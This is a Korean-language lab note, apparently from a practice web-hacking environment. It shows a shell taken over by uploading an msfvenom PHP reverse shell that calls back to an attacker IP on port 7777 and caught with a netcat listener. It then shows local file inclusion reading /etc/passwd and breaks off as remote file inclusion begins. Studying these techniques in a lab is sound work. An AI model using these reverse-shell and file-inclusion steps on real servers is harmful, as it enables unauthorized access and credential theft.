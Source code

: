 ![](./img/32_img_16.png)

실행파일이다 싶으면 서버가 실행하고 응답해주는걸 알고있음 만약 악성스크립트를 삽입하고 업로드하면?

**shell 탈취방법 1 (업로드)**

**악성파일 만들기**
    
    
    msfvenom -p php/reverse_php LHOST=192.168.252.129 LPORT=7777 -f raw >shell.php

-p 는 악성 페이로드 리버스 쉘을 사용함 LHOST(lising host) 뒤는 칼리 ip주소 포트는 자기맘 출력방식은 raw

확인해보기

![](./img/32_img_17.png)
    
    
    nc -nlvp 7777

7777포트 열어주기

파일 업로드

![](./img/32_img_18.png)

이제 URL로 접속하고 포트연 터미널에서 ls 보기

![](./img/32_img_19.png) 파일 탐색 ![](./img/32_img_20.png) ip주소 ![](./img/32_img_21.png) 비밀번호

이런식으로 여러가지 명령어를 내릴수있음 

![](./img/32_img_22.png)

하지만 id를 보면 최고권한은 아님 즉,shell을 탈취해서 명령은 내릴수있지만 마음대로 주무르지 못함

권한상승은 이따가 올릴예정

**shell 탈취방법 2 (불러오기)**

**LEI (Local File Inclusion)**

File inclusion 들어가기 

![](./img/32_img_23.png)

URL include.php 자리에 저 명령어 넣기 
    
    
    /etc/passwd

![](./img/32_img_24.png)

계정정보 확인가능

이 방법으로 서버에있는 중요한정보들을 확인할수있음 (LFI로도 shell탈취가능)

**RFI (Renote File Inclusion)**

apache 실행하기
